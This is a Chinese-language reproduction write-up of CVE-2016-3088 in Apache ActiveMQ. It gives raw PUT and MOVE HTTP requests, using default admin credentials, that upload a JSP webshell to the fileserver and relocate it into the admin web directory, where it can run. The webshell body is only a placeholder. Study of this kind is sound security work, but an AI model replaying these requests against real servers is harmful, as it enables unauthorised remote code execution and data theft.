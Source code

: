 ```yaml
---
title: （CVE-2016-3088）ActiveMQ应用漏洞
id: zhfly2801
---
```


# （CVE-2016-3088）ActiveMQ应用漏洞

## 一、漏洞简介

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![image](../img/257add4dcf2fde44c466788c13c6f522.png)

```
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4= `shell` 
```

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![image](../img/fe7f4bbdb34dc110bcb93894c768ce2a.png)

```
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0 `shell` 
```

![image](../img/933801fec6c1c56af83de79a4bbb8d0f.png)